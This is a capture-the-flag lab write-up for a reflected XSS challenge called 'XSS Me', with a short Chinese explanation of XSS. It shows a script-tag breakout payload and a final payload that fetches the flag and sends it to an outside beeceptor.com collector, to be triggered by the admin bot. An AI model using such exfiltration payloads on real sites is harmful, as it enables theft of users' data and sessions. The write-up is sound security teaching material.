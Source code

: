# Simple Web 0x11(Lab - XSS Me)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8800/

## Background
:::spoiler
攻擊者沒有直接攻擊受害者，而是把惡意程式植入到受害者會瀏覽的網頁，當受害者瀏覽該網頁時，就會自動執行惡意程式，並把受害主機的一些資料送回給駭客(這是其中一種受害方式，也可能很直接的被盜取`COOKIE`之類的)
![](https://i.imgur.com/lZ0bj41.png)

![](https://i.imgur.com/grJXpr7.png)

![](https://i.imgur.com/q9fwa6z.png)
:::
## Source code
```javascript!
...
<script>
    const message = {"icon": "error", "titleText": "User not found.", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
    window.onload = function () {
        if (message !== null) Swal.fire(message);
    }
</script>
...
```
## Exploit
1. Check XSS
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "youshallnotpass", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ...
    ```
    ![](https://i.imgur.com/OffMAUF.png)
2. Try to inject script tag
Payload: `http://h4ck3r.quest:8800/?type=error&message=%3C/script%3E%3Cscript%3Ealert(123)%3C/script%3E//`
    ```javascript!
    ...
    <script>
        const message = {"icon": "error", "titleText": "</script><script>alert(123)</script>//", "timer": 3000, "showConfirmButton": false, "timerProgressBar": true};
        window.onload = function () {
            if (message !== null) Swal.fire(message);
        }
    </script>
    ```
    ![](https://i.imgur.com/1cZJvIv.png)
* Hint
If you login as guest(password = guest), then you can get the response
![](https://i.imgur.com/s2R75Xf.png)

3. Fetch flag and send to [beeceptor](https://beeceptor.com/)
Payload: 
    ```!
    http://h4ck3r.quest:8800/?message=%3C/script%3E%3Cscript%3Efetch(`/getflag\).then(r=%3Er.text()).then(flag=%3Elocation.href=`https://sbk6401.free.beeceptor.com/?f=${flag}`)%3C/script%3E//
    ```

4. Report to admin. Then you got flag!!!